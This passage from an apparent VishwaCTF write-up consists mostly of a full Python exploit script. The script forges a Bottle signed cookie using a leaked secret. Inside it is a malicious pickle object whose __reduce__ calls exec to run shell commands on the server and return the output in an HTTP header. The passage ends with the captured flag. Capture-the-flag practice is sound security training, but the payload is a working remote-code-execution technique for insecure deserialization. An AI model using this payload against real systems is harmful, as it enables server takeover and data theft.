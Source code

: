 response.set_header('X-Flag',base64.b64encode(flag))
""",))
# ...
```

# Full exploit script
```
import base64
import hashlib
import hmac
import pickle
import requests


def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)


def touni(s, enc='utf8', err='strict'):
    if isinstance(s, bytes):
        return s.decode(enc, err)
    return str("" if s is None else s)


def create_cookie(name, value, secret):
    d = pickle.dumps([name, value], -1)
    encoded = base64.b64encode(d)
    sig = base64.b64encode(hmac.new(tob(secret), encoded, digestmod=hashlib.md5).digest())
    value = touni(tob('!') + sig + tob('?') + encoded)
    return value


class PickleRCE(object):
    def __reduce__(self):
        return (exec, ("""
from bottle import response
import subprocess,base64
flag = subprocess.check_output('/flag', shell=True)
response.set_header('X-Flag',base64.b64encode(flag))
""",))


session = {"name": PickleRCE()}
cookie = create_cookie("name", session, "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")

r = requests.get("https://ch681363157615.ch.eng.run/sign", cookies={"name": cookie})
flag_header = r.headers.get("x-flag")
print(base64.b64decode(flag_header).decode("ascii"))
print(base64.b64decode(r.headers["x-flag"]).decode("ascii"))
```

This will automatically fetch the flag for us. 

![flag](https://github.com/PSrujanReddy/OnlineCTF-Writeups/assets/118731259/f44aa100-c5b5-4678-a25c-4f6a55801536)


Flag:`VishwaCTF{W3lcome_t0_p03m_p0ck3t}`
 

